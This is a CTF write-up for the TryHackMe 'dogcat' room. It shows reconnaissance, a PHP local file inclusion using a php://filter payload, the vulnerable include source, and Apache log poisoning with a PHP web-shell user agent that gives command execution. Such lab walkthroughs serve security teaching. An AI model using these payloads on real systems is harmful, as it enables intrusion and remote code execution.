 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!\
This machine may take a few minutes to fully start up.

[Link](https://tryhackme.com/room/dogcat) to the room

---

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/009bc8a6-b486-4d12-9bd3-484bdc1a8172)

The web app is about images of cats and dogs, no surprise. Let's fuzz for hidden content.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"

<...snip...>
cats                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
dogs                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
```

We assume that these folders contain the content of the web app (images of cats and dogs).
But we don't have permissions to access them.

Let's try making use of the first flag's hint: *There's more to *view* than just cats and dogs...*.\
Notice that view is the name of the query argument when calling the api for a random cat/dog image.
We can try and fuzz to discover more values that are accepted by that argument:
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/?view=FUZZ" -fs 455

<...snip...>
category                [Status: 200, Size: 759, Words: 106, Lines: 24, Duration: 39ms]
<...snip...>
```

The command returns many entries. Note that `-fs 455` is used to exclude entries that return the standard response of "Sorry, only dogs or cats are allowed".

Navigating to `http://<machine_ip>/?view=catalog`, we get the following:
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/70e44b57-bf4b-45cd-a15e-889d8d9d2e49)

Allright, now we know that the value of `view` is attached to ".php" extension and then passed to the `include` function.\
Since this is the case, we can use a php filter to disclose the source code of php files in the server. But first, lets see what php files do we have there:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:FUZZ -u "http://<machine_ip>/FUZZ" -e .php

<...snip...>
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
<...snip...>
```

Interestingly, we found a flag file. Now we can use the read filter to get its content encoded in base64.\
When testing the payload, I was getting the "Sorry, only dogs or cats are allowed" error, so I tried many assumptions on how the app is verifying this conditions.
One of them, which later succeeded, is that the app checks if the value of the path contains "cat" or "dog".\
Hence, to get the flag, we pass the value `http://<machine_ip>/?view=php://filter/read=convert.base64-encode/resource=cats/../flag`. We used "cats" because this is an existing folder on the server, and from which we know the relative location of "flag.php".

We decode the base64 string and get our first flag.

Having access to php files on the server, we need to figure out how to get more access.\
Let's get the index file (same directory as flag.php) and see how the app actually works.
```PHP
<...snip...>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
<...snip...>
```
First, we now validate how the app decides when a value of *view* is valid. And second, the url argument *ext* is used to specify the extension of the file to include and thus, we can now include whatever file (according to permissions) on the server.

One common method to exploit LFI vulnerabilities is log poisonning. For this, we poison our user-agent to acheive RCE when we include the log file.\

- Log file location : `/var/log/apache2/access.log`
- User Agent : `<h1><?php system($_GET['cmd']); ?></h1>`
- Result when visiting `http://<machine_ip>/?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=id`
![Screenshot_2023-12-08_20_29_42](https://github.com/elomarii/CTF_4_DAY/assets/106914699/62233aba-1ee3-4977-9435-09672e19054a)


Now that we can execute commands on the target machine, let's discover files there.\
We find the second flag on the parent folder of where the app lives (execute command `ls ..`).




